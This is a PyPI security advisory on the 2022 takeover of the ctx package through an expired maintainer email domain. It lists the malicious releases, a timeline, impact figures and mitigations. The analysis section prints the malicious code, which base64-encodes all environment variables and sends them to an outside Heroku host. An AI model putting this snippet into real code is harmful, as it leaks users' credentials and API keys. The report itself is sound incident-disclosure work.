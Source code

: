 =========================================================
Account Takeover and Malicious Replacement of ctx Project
=========================================================

Summary
=======

The ``ctx`` hosted project on PyPI was taken over via user account compromise
and replaced with a malicious project which contained runtime code which
collected the content of ``os.environ.items()`` when instantiating ``Ctx``
objects. The captured environment variables were sent as a base64 encoded query
parameter to a heroku application running at ``https://anti-theft-web.herokuapp.com``.

Between 2022-05-14T19:18:36Z and 2022-05-24T10:07:17Z the following release
below files were hosted by PyPI at various times containing this malicious
payload.

If you installed the package between May 14, 2022 and May 24, 2022, and your
environment variables contain sensitive data like passwords and API keys (like
``AWS_ACCESS_KEY_ID`` and ``AWS_SECRET_ACCESS_KEY``), we advise you rotate your
passwords and keys, then perform an audit to determine if they were exploited.

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.2.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/4c/e2/f78e95454725d45602611560682cc1929ee18af496d2a2bc5430278d9153/ctx-0.2.2-py2.py3-none-any.whl>`_              | 2022-05-21T12:41:57.066Z | acf05948020a86092943b40d6e5c5b51ec6087923f58942216b9c5e8b853d3fb |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/55/2f/62dc2487337bbc3d761c8117f255a9ac234888bf46467455e5315814b737/ctx-0.1.2-1-py2.py3-none-any.whl>`_          | 2022-05-21T12:54:51.344Z | 5dc1bc1404c27699ee40fd71eeb586d6842e1478f9f14dab5d1763fc20dff3d3 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1.tar.gz <https://files.pythonhosted.org/packages/41/7a/2e658c7805560d0dcce50a469a0b68f48e78b3f3aa1d7431249f046f60f2/ctx-0.1.2-1.tar.gz>`_                                      | 2022-05-21T12:54:53.384Z | b40297af54e3f99b02e105f013265fd8d0a1b1e1f7f0b05bcb5dbdc9125b3bb5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/3f/54/c129c06f63fd7ea2c38fe933a2152ce40467de1db21739f117f6d166d90b/ctx-0.2.3-py2.py3-none-any.whl>`_              | 2022-05-21T16:17:17.016Z | f45a256c2f7aace635a82118dfadf6f6023315fc73d7d473b99acc40ecb12278 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3.tar.gz <https://files.pythonhosted.org/packages/08/0e/af68c739501eb7734d59fe1acefbf9248a9ebcb2691eabad20e1d3fd6a75/ctx-0.2.3.tar.gz>`_                                          | 2022-05-21T16:17:19.599Z | 15103c1af07a9a091dfe3b6c6dda9f1f11fd65bd9a878a9aaa79aee6bb8722cc |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/dd/68/27389f6a566a102de83539bc69c506085e8b8ac509119a4f17990e3bb4cb/ctx-0.2.2.1-py2.py3-none-any.whl>`_          | 2022-05-21T16:19:40.081Z | 5b484f642eaf4f5708d446e93f0f698f57bbece49d27808a59980358abdbe590 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1.tar.gz <https://files.pythonhosted.org/packages/f0/e6/f4effbd2483d061edbe62cd8107700fdaf7e6e5843cea70c8c859b5d0fca/ctx-0.2.2.1.tar.gz>`_                                      | 2022-05-21T16:19:42.337Z | f7342f723517f24b13f2ab2f702abb78692288138c1053dbe64bccd8bc1175d5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b0/fe/a2d322d861f73131c61020ad8e96f3b2a0bb4784e640e01e29a5be1454fe/ctx-0.2.4-py2.py3-none-any.whl>`_              | 2022-05-21T16:20:21.645Z | 280cc6f69a1cd80c9bf95272237d5620d14f226111066df1f0c0855722a89257 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4.tar.gz <https://files.pythonhosted.org/packages/8a/c4/04990148f252dcc62dec759b09580972f02c9fc49056c8d69fe7ff92b6f3/ctx-0.2.4.tar.gz>`_                                          | 2022-05-21T16:20:23.581Z | 9c1bb795d660ddb0c42166e546af06230443cbcda8780f0f3541017a8659e7cd |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b6/50/fd14560fac446587b442446871f91c7702631ee09e9b6b76221308ff7a6b/ctx-0.1.2-2-py2.py3-none-any.whl>`_          | 2022-05-21T16:24:52.810Z | e212e12d0983a9d81812f14fac8c207d1dc67a4ec9043af9aea0799b528dafa1 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/09/ff/9ef8bb7abebc4c680fa3a497ea694f66273b0d3eafa8d5ce005fbf88eb1e/ctx-0.2.5-py2.py3-none-any.whl>`_              | 2022-05-21T16:27:18.221Z | 86b8e1e529e9a566ac7ce7d85ffe4e5cf69df50cb0e6e38fbb6e34e6965815a0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5.tar.gz <https://files.pythonhosted.org/packages/1e/4e/8cdcf228d1d2dd666eacbde59a0cfa994fe58af7287f2272dcd30717a584/ctx-0.2.5.tar.gz>`_                                          | 2022-05-21T16:27:19.867Z | 34c0ae0c77160355eefa8e43b1d8c68df31c448b5a28fe78f32300bf89eb0813 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/33/ec/7771d928a431dabd4440dc420ed03029eddc4bd7067ffd0af49052174c6a/ctx-0.2.6-py2.py3-none-any.whl>`_              | 2022-05-21T16:28:19.342Z | 04b150ce4dbd2bcf054a9c2b676649f9da60b7ce2c74f31ebc4e1070dcc0fb94 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6.tar.gz <https://files.pythonhosted.org/packages/b7/0d/00ed86e3e8363820c05d53f8c850dd88137f9b8f6ef1eed255a63ab5cbbd/ctx-0.2.6.tar.gz>`_                                          | 2022-05-21T16:28:21.490Z | 4fdfd4e647c106cef2a3b2503473f9b68259cae45f89e5b6c9272d04a1dfaeb0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.tar.gz <https://files.pythonhosted.org/packages/19/8d/08520985e1433086304aa6e9671a47a94b3b949ca605bc883c1b15d03b68/ctx-0.2.tar.gz>`_                                              | 2022-05-14T23:52:46.207Z | 6c98fe4afa021885d5add151049aec7d812a31fb9a03bf5cdedefd42229b6b90 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.1.tar.gz <https://files.pythonhosted.org/packages/5a/71/74e1ea615c12401ffe569e3b486d6936e25bbeaeae981280a90c85aa2483/ctx-0.2.1.tar.gz>`_                                          | 2022-05-15T00:17:20.862Z | cdda4a2ec16bd52862e9b18aaa5525468318ba544fe426daeebc3d28e2b72897 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.tar.gz <https://files.pythonhosted.org/packages/83/2a/ea9818cdb7256ef86546d56c893d8c6504208766763e838583bded1353d4/ctx-0.2.2.tar.gz>`_                                          | 2022-05-15T00:44:53.658Z | b7644fa1e0872780690ce050c98aa2407c093473031ab5f7a8ce35c0d2fc077e |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.4.tar.gz <https://files.pythonhosted.org/packages/be/1e/71f23d7b4e6a7eed404b28f5fcaa3594b76d24701ef16861773887fc82b1/ctx-0.1.4.tar.gz>`_                                          | 2022-05-14T19:18:36.994Z | 17714ef9ff6d2eabc631638e2f092115fa569843f9ab45b6e9da23912b72f482 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

The original and sole releases prior to the compromise are still available as:

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.1.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/11/87/f6ab88cd29495120e255a092397095fb9a6ed0918a01fe104ca3389341df/ctx-0.1.2-py2.py3-none-any.whl>`_              | 2014-12-19T07:31:07.162Z | beb1628d6624b19c04a065fab6751feace594fd4072b3e649cafdd765182e441 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2.tar.gz <https://files.pythonhosted.org/packages/48/aa/94bc2fdfe7a524cde4275c115bcc0185e6a58fde460568c513242b314b73/ctx-0.1.2.tar.gz>`_                                          | 2014-12-19T07:31:04.062Z | edbff45647936da3cdadcfeaa64ee9f62b8ad629a5cea8caa4b63f5dc08b99c4 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

* Disclosure date: **2022-05-24** (Response initiated via reports submitted via security policy on `pypi.org <https://pypi.org/security/>`_)
* Disclosed by: Multiple Parties


Analysis and Mitigation
=======================

Once notified, a PyPI administrator confirmed that all current releases on the
index contained a similar exfiltration mechanism in the contents of the
``ctx.py`` file of the release files::

    class Ctx(dict):

        def __init__(self):

            self.sendRequest()

        def sendRequest(self):
            string = ""
            for _, value in os.environ.items():
                string += value+" "

            message_bytes = string.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')

            response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)

**Note:** Above code is reduced to core mechanism for clarity.

With the malicious nature of all release files confirmed, the PyPI
administrator used existing tools to:

* Remove the project, all releases, and all release files from the index
* Simultaneously prohibit the name ``ctx`` from being re-registered without
  admin intervention
* Freeze the compromised user account of the owner

The activity log of the user, action log on the project, metadata for all
historical uploads (including malicious), archives of the files, and their
locations in object storage were backed up for further analysis.

WHOIS records were then queried to confirm that the domain associated with the
owner user account had been recently registered on 2022-05-14T18:40:05Z.
Activity logs for the owner user account were then used to confirm that
malicious activity including password reset and uploads commenced just 12
minutes after domain registration. No mechanism for multi factor authentication
was enabled for the owner user account.

The PyPI administrators made the decision *not* to restore the original files
at this time, as PyPI policies state that actions on the index including
deletion are immutable.

If there is sufficient reason to restore the removed files a process that
complies with that contract will need to be developed.


Impact Assessment
=================

The ``ctx`` project was registered and uploaded to PyPI in 2014. According to
Libraries.io, the project on PyPI that declares it as a dependency is
``context-engine``. No known repositories that Libraries.io analyzes declares
``ctx`` as a dependency. This is additionally confirmed by
https://deps.dev/pypi/ctx/0.1.2/dependents.

Before the malicious releases were uploaded, ``ctx`` saw on average 1600
downloads per day. After malicious releases were uploaded, downloads rose to a
peak of 4548 on 2022-05-20. Rises like these are common after new project
releases due to mirrors of PyPI syncing in new changes.

In total we estimate that 27,000 malicious versions of this project were
downloaded from PyPI, with the majority of "overage" downloads being driven by
mirrors.

This hypothesis is supported by data from analysis of requests to
https://pypi.org/simple/ctx/ showing no associated rise in simple traffic from
installers.

.. image:: ./2022-05-24-ctx-domain-takeover-chart.png
   :width: 400
   :alt: Chart showing simple request and download counts for ctx project on pypi

Potential Future Mitigation
===========================

Domain takeovers are a known attack vector for compromising individual user
accounts on PyPI. PyPI administrators have responded to reports in the past of
publicly visible email addresses associated with project metadata containing
expired domains, which happened to match the domains of owner user accounts for
projects.

Currently, PyPI has some protections in place for expired email domains: if
PyPI sends an email to a user's email address, and that email bounces, PyPI
will disable the verified status of that email. As password resets require
verified email addresses, an attacker would be unable to use the expired domain
to gain access to the account. However, this depends on PyPI sending an email
to the expired domain in the time period between expiry and an attacker
attempting a takeover.

Performing this analysis on an ongoing basis and freezing accounts with expired
or near expiration domains is a potential mitigation that could protect absent
maintainers in the future, at the cost of increased support burden on the team
of PyPI moderators and admins.

Further Reccomendations
=======================

We also advise all PyPI users, but especially project maintainers, to enable
multi factor authentication on their PyPI accounts following the references at
https://pypi.org/help/#twofa.

Additionally, version-pinning and using `hash checking mode
<https://pip.pypa.io/en/stable/topics/secure-installs/#hash-checking-mode`_
would prevent this attack, which depends on users automatically upgrading to
the latest available version at install-time.

The safety and pip-audit projects can be used to check for known
vulnerabilities in your dependencies:

* https://github.com/pyupio/safety
* https://github.com/trailofbits/pip-audit

You can join the security-sig mailing list to discuss Python security:
https://mail.python.org/mailman3/lists/security-sig.python.org/

Timeline
========

* Unknown: Domain hosting email for ``ctx`` owner user account expired
* 2022-05-10: Password reset attempted for ``ctx`` owner user account
* 2022-05-14T18:40:05Z: Domain associated with ``ctx`` owner user account registered
* 2022-05-14T18:52:40Z: ``ctx`` owner user account password successfully reset
* 2022-05-14T19:18:36Z - 2022-05-21T12:41:57Z: Malicious versions of ``ctx`` project uploaded
* 2022-05-21T12:50:23.107588: Original benign versions of ``ctx`` removed from index
* 2022-05-24: Reports of project takeover submitted on multiple channels including security@python.org
* 2022-05-24T10:07:17Z: All malicious releases of ``ctx`` project removed from index, project name prohibited from re-registration, and owner user account frozen
